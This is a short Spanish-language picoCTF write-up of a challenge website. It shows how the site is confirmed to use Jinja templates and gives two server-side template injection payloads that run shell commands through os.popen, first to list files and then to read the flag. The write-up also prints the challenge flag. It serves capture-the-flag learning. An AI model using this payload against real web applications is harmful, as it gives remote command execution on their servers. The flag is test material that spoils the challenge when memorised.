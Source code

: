 ## Descripción
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:61300/)!

## Solución
Se abre la página web y se tiene que se pueden hacer inyecciones ya sea xxs o ssti, se intenta ver si es jinja el motor de plantillas usando {{1+2}} y devuelve 3 por lo tanto si es.
Al buscar como poder ejecutar comandos de shell desde jinja se tiene lo siguiente:
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
Lo cual ejecuta ls y devuelve los directorios de la carpeta actual
Entre los archivos está flag, por lo tanto se cambia el script
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

```
# picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}
```

## Referencias
* https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/